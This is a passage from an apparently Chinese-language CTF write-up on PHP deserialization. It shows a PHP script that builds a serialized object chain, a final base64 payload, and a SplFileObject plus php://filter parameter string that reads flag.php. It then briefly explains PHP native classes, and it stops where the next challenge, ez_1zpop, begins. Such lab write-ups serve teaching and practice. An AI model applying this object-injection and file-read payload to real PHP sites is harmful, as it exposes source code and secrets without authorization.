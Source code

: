 ```php
  public $department;

  public $headmaster='ong';

}

$a=new school();

$a->department=new classroom();

$a->department->leader=new teacher();

echo base64_encode(serialize($a));

?>

 
```

最终payload：

？d=Tzo2OiJzY2hvb2wiOjI6e3M6MTA6ImRlcGFydG1lbnQiO086OToiY2xhc3Nyb29tIjoyOntzOjQ6Im5hbWUiO3M6OToib25lIGNsYXNzIjtzOjY6ImxlYWRlciI7Tzo3OiJ0ZWFjaGVyIjoyOntzOjQ6Im5hbWUiO3M6MzoiaW5nIjtzOjQ6InJhbmsiO3M6MTA6ImRlcGFydG1lbnQiO319czoxMDoiaGVhZG1hc3RlciI7czozOiJvbmciO30=

a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=flag.php

 Base64解码后得到flag 

参考文章：

[SplFileObject简单使用.md - redfish999 - 博客园 (cnblogs.com)](https://www.cnblogs.com/redfish404/articles/18106289)

[文章 - 浅析php原生类 - 先知社区](https://xz.aliyun.com/news/10609)

[PHP原生类详解-CSDN博客](https://blog.csdn.net/qq_71467825/article/details/131332439)

补充一些自己对原生类的理解：

原生类就是PHP内置的类，便于使用各种库，本题使用的SplFileObject类是SPL库中的标准文件操作类，如其名字字面意思，可以用于读文件,可以读取文件的信息，但SplFileObject只能读取文件第一行，所以需要使用php://filter才能来读取完整的文件内容。

### 4.ez_1zpop

```php
<?php

error_reporting(0);

class dxg

{

  function fmm()

  {

   return "nonono";

  }

}

class lt

{

```